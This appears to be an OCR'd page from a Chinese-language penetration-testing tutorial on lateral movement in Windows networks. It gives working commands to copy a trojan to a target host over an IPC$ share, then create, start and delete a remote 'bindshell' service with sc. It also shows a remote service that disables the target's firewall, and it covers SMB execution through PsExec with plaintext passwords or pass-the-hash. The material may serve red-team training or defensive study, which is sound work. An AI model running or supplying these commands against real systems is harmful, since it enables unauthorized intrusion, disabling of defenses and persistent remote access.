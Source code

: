1.建立IPC连接

2.拷贝木马到目标机器

```
copy shell.exe \\192.168.10.2\C$\windows\temp\
```

3.在目标主机DC上创建一个名称为“backdoor”的服务。命令如下：

```
sc \\[主机名 or IP] create [servicename] binpath= "[path]"   
//创建计划任务启动程序
```
注意这里的格式，“=” 后面是必须空一格的，否则会出现错误。

4.立即启动该服务：

```
sc \\192.168.10.2 start bindshell
```

5.删除刚才创建的服务
```
sc \\192.168.10.2 delete bindshell
```

我们还可以通过设置服务来关闭防火墙：
```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start unablefirewall
```



## 通过smb服务横向移动

> 利用条件
1、445端口开放
2、知道账号密码明文或hash

利用 SMB 服务可以通过明文或 hash 传递（PTH）来远程执行。

###  明文传递
#### PsExec.exe(微软官方工具)

> 使用条件
1.对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
2.对方未开启防火墙
3.如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
4.如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

执行原理(会留下大量日志)：

1.  通过ipc$连接，释放psexecsvc.exe到目标
2.  通过服务管理SCManager远程创建psexecsvc服务，并启动服务。
3.  客户端连接执行命令，服务端启动相应的程序并执行回显数据。
4.  运行完后删除服务。这个在windows的日志中有详细的记录，另外psexec在少数情况下会出现服务没删除成功的bug，所以一般不推荐使用psexec，推荐wmiexec
